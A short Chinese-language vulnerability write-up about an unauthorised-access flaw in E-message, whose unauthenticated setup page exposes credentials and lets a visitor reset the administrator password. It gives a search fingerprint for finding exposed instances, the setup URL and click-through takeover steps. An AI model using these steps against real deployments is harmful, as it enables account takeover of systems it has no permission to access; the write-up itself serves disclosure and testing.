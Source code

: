 # E-message 越权访问漏洞

## 漏洞描述

E-message 存在越权访问漏洞，由于配置页面没有做权限设定，导致攻击者可以访问并重置账号密码等操作

## 漏洞影响

```
E-message
```

## 网络测绘

```
title="emessage 设置: 数据库设置 - 标准连接"
```

## 漏洞复现

访问安装页面

```plain
http://xxx.xxx.xxx.xxx/setup/setup-datasource-standard.jsp
```

![](./images/202202101934751.png)



可以获取账号密码信息，一路点击右下角的继续将会跳转修改管理员账号密码页面，修改后登录即可获取后台权限



![](./images/202202101934975.png)
